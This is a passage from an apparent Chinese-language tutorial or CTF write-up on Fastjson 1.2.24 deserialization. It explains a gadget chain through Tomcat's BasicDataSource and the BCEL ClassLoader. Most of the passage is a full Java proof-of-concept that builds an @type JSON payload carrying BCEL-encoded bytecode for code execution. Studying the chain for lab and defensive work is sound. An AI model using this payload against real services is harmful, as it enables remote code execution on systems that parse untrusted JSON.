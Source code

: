 <img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711856938205.png" alt="1711856938205" style="zoom: 50%;" />

流程找完了，我们来写链子：

其实就是先给driverClassLoader set成我们的ClassLoader，然后给driverClassName set为我们的以$$BCEL$$为开头的且encode后的恶意代码，最后利用jsonObject的toJSON触发getConnection就好了：

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.IOException;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.nio.file.Files;

public class Test2 {
    public static void main(String[] args) throws IOException {
        Path path = Paths.get("G:\\web\\ctf_java\\Fastjson_1.2.24\\target\\classes\\org\\example\\calc.class");
        byte[] bytes = Files.readAllBytes(path);
        String code = Utility.encode(bytes,true);
        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassName\":\"$$BCEL$$"+code+"\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
    }
}
```
